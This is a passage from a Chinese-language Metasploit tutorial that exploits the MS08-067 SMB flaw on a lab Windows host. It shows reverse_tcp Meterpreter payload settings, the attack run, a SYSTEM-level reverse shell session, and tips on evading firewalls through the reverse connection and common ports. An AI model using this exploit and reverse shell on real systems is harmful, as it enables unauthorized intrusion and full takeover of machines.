 ```javascript
   SMBPIPE  BROWSER          yes       The pipe name to use (BROWSER, SRVSVC)


Payload options (windows/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  thread           yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     10.10.10.134     yes       The listen address
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   3   Windows 2003 SP0 Universal
```


> 在msf框架中查找MS08_067 NETAPI攻击模块，然后使用use命令使用该模块。接下来，设置攻击载荷为基于Windows系统的`Meterpreter reverse_tcp`(该载荷攻击之后，会从目标主机发起一个反向连接。此连接可以绕过防火墙的入站流量保护，或者穿透NAT网关)
> `Windows XP SP2 English (NX)`的NX(No Execute)表示“不允许执行”，即启用了DEP保护。在Win XP SP2中的DEP默认启用（仅对Windows自身服务程序）
> 设置LPORT参数时候，尽量使用防火墙一般会允许通行的常用端口号。本例作为演示，就不另外设置

**0x03发动攻击**

配置好参数，就尝试进行攻击。

```javascript


msf exploit(ms08_067_netapi) > run

[*] Started reverse TCP handler on 10.10.10.134:4444 
[*] Attempting to trigger the vulnerability...
[*] Sending stage (957487 bytes) to 10.10.10.130
[*] Meterpreter session 1 opened (10.10.10.134:4444 -> 10.10.10.130:2074) at 2016-02-25 03:42:19 -0500
meterpreter > 
```


> 攻击成功之后，返回一个`reverse_tcp`方式的Meterpreter攻击载荷会话。

```javascript


meterpreter > background 
[*] Backgrounding session 1...
msf exploit(ms08_067_netapi) > sessions -l -v

Active sessions
===============

  Session ID: 1
        Type: meterpreter x86/win32
        Info: NT AUTHORITY\SYSTEM @ ROOT-TVI862UBEH
      Tunnel: 10.10.10.134:4444 -> 10.10.10.130:2074 (10.10.10.130)
         Via: exploit/windows/smb/ms08_067_netapi
        UUID: 69572570cc867f74/x86=1/windows=1/-02-25T08:42:17Z
   MachineID: b6c81f0615bb5433af90fb7a5f47f6c8
     CheckIn: 0s ago @ 2016-02-25 04:50:12 -0500
  Registered: No

msf exploit(ms08_067_netapi) > sessions -i 1
```